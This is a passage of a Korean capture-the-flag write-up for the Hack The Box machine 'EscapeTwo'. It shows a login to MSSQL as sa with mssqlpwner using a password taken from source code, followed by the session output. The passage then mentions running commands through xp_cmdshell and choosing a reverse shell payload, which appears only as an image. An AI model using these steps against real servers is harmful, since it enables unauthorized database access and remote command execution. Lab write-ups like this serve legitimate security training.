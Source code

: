 이중에 mssql의 크레덴셜이 눈에 띈다. 이걸 사용해서 데이터베이스에 접속해보자.

## mssql

리눅스에서 mssql에 접속하기 위해 `impacket-mssqlclient`가 있지만 이번에는 `mssqlpwner`라는 툴을 사용해봤다.

-db <db명>으로 접속할 데이터베이스를 정할 수 있다. 디폴트로 master에 들어가진다.

```sh
mssqlpwner sequel.htb/sa:'MSSQLP@ssw0rd!'@10.10.11.51 interactive
[*] Connecting to 10.10.11.51:1433 as sa
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
State file already exists, do you want to use it? (y/n): y
[*] Enumeration completed successfully
[*] Saving state to file
[*] Chosen linked server: DC01
MSSqlPwner#DC01 (sa@master/dbo)>
```

exec 명령어를 사용해서 xp_cmdshell을 이용할 수 있다.

데이터베이스에 파일들이 매우 많은데 딱히 도움이 될 정보는 없었다. (파일들 하나하나 확인하는데 굉장한 시간을 소요했다.)

리버스쉘 페이로드를 이용해서 리버스쉘을 얻기로 결정.

![리버스쉘](/assets/img/writeup/HTB/escapetwo/mssql.png)
